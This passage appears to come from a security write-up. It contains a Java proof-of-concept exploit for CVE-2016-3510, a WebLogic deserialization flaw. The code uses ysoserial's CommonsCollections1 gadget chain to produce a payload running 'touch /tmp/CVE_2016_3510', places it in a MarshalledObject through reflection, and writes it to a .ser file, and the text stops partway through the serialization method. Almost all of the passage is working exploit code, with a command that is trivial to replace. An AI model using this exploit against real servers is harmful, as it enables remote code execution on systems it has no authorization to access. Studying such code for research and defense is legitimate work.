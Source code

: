 ![image-20210815103750342](img/image-20210815103750342.png)

```java
import weblogic.corba.utils.MarshalledObject;
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;
import java.lang.reflect.Field;

public class CVE_2016_3510 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        byte[] payload = exec("CommonsCollections1", "touch /tmp/CVE_2016_3510");
        MarshalledObject marshalledObject = new MarshalledObject("foo");
        Class cls = marshalledObject.getClass();
        Field field = cls.getDeclaredField("objBytes");
        field.setAccessible(true);
        field.set(marshalledObject, payload);
        ser(marshalledObject,"./CVE_2016_3510.ser");
    }

    public static byte[] exec(String gadget, String command) throws IOException {
        String[] cmd = {"java", "-jar", "/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar", gadget, command};
        InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[4096];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        return baos.toByteArray();
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
```